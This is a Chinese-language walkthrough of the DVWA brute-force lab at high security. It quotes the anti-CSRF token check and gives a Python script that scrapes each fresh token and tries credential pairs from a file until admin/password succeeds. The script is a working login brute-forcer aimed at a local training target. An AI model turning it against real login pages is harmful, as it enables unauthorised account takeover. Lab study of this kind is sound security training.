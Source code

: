 # high

高级别模式中含有一个防止CSRF攻击的token，使用burp suite拦截高级模式的报文，发现安全级别为高级模式中除了用户名和登陆密码，还包含一个随机token值。

![high_http_message](image/high_http_message.png)

分析源码，在`DVWA/vulnerabilities/brute/source/high.php`中发现登陆前会先检查token，并且包含一个产生token的函数

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

产生token

```php
// Generate Anti-CSRF token
generateSessionToken();
```

服务器每次提交时会先生成一个token值，然后在登陆时先检查页面的token。因此需要一个爬虫来获取页面的token，此处不再使用burp suite



## 脚本

```python
# ! /use/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup
import sys
import re

get_user_token = re.compile(r'(?<=value=").*?(?=")')


def get_token(url):
    # reload(sys)  # 2
    # sys.setdefaultencoding('utf-8')
    header = {
        'Host': 'dvwa.localhost',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Encoding': 'gzip, deflate',
        'Upgrade-Insecure-Requests': '1',
        'Accept-Language': 'zh-cn',
        'Connection': 'close',
        'Cookie': 'PHPSESSID=5tmkqrhm1gve2r9ap450c6m6m2; security=high',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/604.5.6 (KHTML, like Gecko) Version/11.0.3 Safari/604.5.6'
    }
    rep = requests.get(url, headers=header)
    rep.encoding = 'utf-8'
    soup = BeautifulSoup(rep.text, "lxml")
    print(len(rep.text))
    input_list = soup.find('input', type="hidden")
    user_token = get_user_token.search(str(input_list)).group()
    return user_token


if __name__ == '__main__':
    user_token = get_token("http://dvwa.localhost/vulnerabilities/brute/")
    with open('1.txt') as f:
        i = 0
        for item in f.readlines():
            pos = item.rfind(",")
            username = item[:pos]
            password = item[pos + 1:]
            requrl = "http://dvwa.localhost/vulnerabilities/brute/" + "?username=" + username.strip() + \
                     "&password=" + password.strip() + "&Login=Login&user_token=" + user_token
            i += 1
            print(i, username.strip(), password.strip());
            user_token = get_token(requrl)

```

结果

![high_result](image/high_result.png)

发现用户名`admin`和密码`password`和其他的长度不同，尝试用此组合登陆，可以成功登陆。